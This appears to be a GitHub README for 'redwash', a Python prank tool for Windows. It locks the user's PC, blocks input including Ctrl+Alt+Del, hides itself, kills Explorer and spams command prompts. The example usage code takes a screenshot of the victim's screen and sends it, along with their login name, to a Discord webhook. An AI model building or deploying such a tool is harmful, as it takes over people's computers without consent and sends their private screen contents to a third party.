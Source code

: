 # redwash
A Python (for Windows) troll script that locks the user's computer and jumpscares them. Does not require UAC.
Has various optional features:
* Hide itself when run
* Block user input (including Ctrl+Alt+Del)
* Minimize all other running applications
* Spam open command prompts
* Kill Windows Explorer
* Execute other code during runtime (upload screenshot etc.)

![image](redwashed_pc.png)

## Example Usage
```python
""" redwash code implementation goes here... """

def otherCode():
    # This is an example of some code you can execute in the background when redwash is running.
    # In this example, we take a screenshot of the user's computer and upload it to a discord webhook.

    # Take a screenshot of the PC
    screenshot = ImageGrab.grab()
    buffered = BytesIO()
    screenshot.save(buffered, format="PNG")

    # Your Discord webhook URL
    webhook_url = 'your_webhook_url'

    # Prepare the payload
    files = {'file': ('screenshot.png', buffered.getvalue(), 'image/png')}
    data = {'payload_json': dumps({"content": getlogin() + " just executed the script!", "username": "redwash", "avatar_url": "https://cdn.discordapp.com/attachments/1193058123733282998/1193058403862454282/terxture.png?ex=65ab5539&is=6598e039&hm=05040b88e1d2b6500f983e13bfd262ffee851d8c973d5ff4eb1e8016ea396e6a&"})}

    # POST request to the Discord webhook
    res = post(webhook_url, files=files, data=data)

if __name__ == "__main__":
    redwash(True, True, True, True, True, False, otherCode)
```
